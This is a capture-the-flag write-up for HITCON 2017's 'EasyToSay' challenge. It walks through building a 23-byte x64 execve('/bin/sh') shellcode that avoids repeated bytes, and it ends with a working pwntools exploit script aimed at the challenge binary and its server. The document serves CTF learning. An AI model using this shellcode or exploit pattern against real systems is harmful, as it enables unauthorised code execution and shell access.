 ```yaml
---
title: "EasyToSay | Hitcon 2017"
tags: ["pwn", "shellcode"]
points: 144
solves: 139
---
```


This is a writeup explaining how I wrote a shellcode payload bypassing a size limit and avoiding repeated bytes.

## Overview
After reversing the binary we easily see the program will run any shellcode we give it with the following conditions:
1. is shorter than 24 bytes
2. does not have repeated bytes

After a little debugging we also see that before executing our shellcode all registers are zero'd.


## Solution

Here I will go through the ideias I had before arriving at the final solution.

### 1. Basic x64 shellcode
First lets try a basic x64 shellcode and see if there are any repeating bytes. That looks something like:
1. put '/bin/sh\x00' on the stack
2. put that stack address in `rdi` (filename)
3. make `rsi` (argv) equal 0
4. make `rdx` (envp) equal 0
5. call the execve syscall (a syscall table for x64 can be found [here](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/))

We get step 3 and 4 for free since all registers are already zero'd from the start. The rest looks something like this:

```
68 2f 73 68 00      push   0x0068732f   ; 1. '/sh\x00'
68 2f 62 69 6e      push   0x6e69622f   ; 1. '/bin'
48 89 e7            mov    rdi, rsp     ; 2. Put the '/bin//sh' addr in rdi
b0 3b               mov    al, 0x3b     ; 5. Mov to rax the execve syscall number
0f 05               syscall             ; 5. call it
```

### 2. Can't have 2 push's
As we can see on the left there are repeated bytes in the first two intructions.
Having 2 `push` instructions is not an option since the opcode will be repeated. Lets try to do it with a `mov` instead of a `push` and see if we have better luck.

```
c7 04 24 2f 73 68 00    mov    DWORD PTR [rsp], 0x0068732f
68 2f 62 69 6e          push   0x6e69622f
48 89 e7                mov    rdi, rsp
b0 3b                   mov    al, 0x3b
0f 05                   syscall
```

That is better but `/bin/sh\x00` contains two `/` (2f) and that is a problem since it is a repeated byte. Also the byte 0x68 is repeated since it is the opcode of `push` and also the letter `'h'`. Let's try another version:

```
49 bc 2f 62 69 6e 2f    movabs r12,0x68732f6e69622f
73 68 00
41 54                   push   r12
48 89 e7                mov    rdi, rsp
b0 3b                   mov    al, 0x3b
0f 05                   syscall
```

Closer! Now we only have to somehow remove the extra `/`.

At this point I tried using just `sh` or `bash`, but the execve syscall only works with a full path, making the two slashes necessary.


### 3. Masking the repeated '/'
Now the plan is to mask the slash. Instead of putting a slash there directly we want to:
1. mask `'/'` by sending the value of `'/' - 1`
2. unmask it by adding `1`, making it a `'/'` again.

```
49 bc 2f 62 69 6e 2e    movabs r12,0x68732e6e69622f
73 68 00
41 54                   push   r12
fe 44 24 04             inc    BYTE PTR [rsp+0x4]
48 89 e7                mov    rdi, rsp
b0 3b                   mov    al, 0x3b
0f 05                   syscall
```

That worked! No repeated bytes and a length of 23. Just under the 24 byte limit!


## Exploit
```python
from pwn import *

context.arch = 'amd64'
context.os = 'linux'

def go():
    s = process("./easy_to_say")
    # s = remote("52.69.40.204", 8361)

    shellcode = asm(\
    """
        mov r12, %s
        push r12
        inc byte ptr [rsp+0x4]
        mov rdi, rsp
        mov al, 59
        syscall
    """ % (hex(u64("/bin" + chr(ord('/') - 1) + "sh\x00"))))


    # Check if there are any repeated bytes
    for i in range(len(shellcode)):
        for j in range(i):
            if shellcode[i] == shellcode[j]:
                print i, "==", j, "(", hex(ord(shellcode[j])), ")"
    print "There are %d bytes repeated" % (len(shellcode) - len(set(shellcode)))
    print "Shellcode of len: ", len(shellcode)
    print disasm(shellcode)

    s.sendline(shellcode)
    s.interactive()

go()
```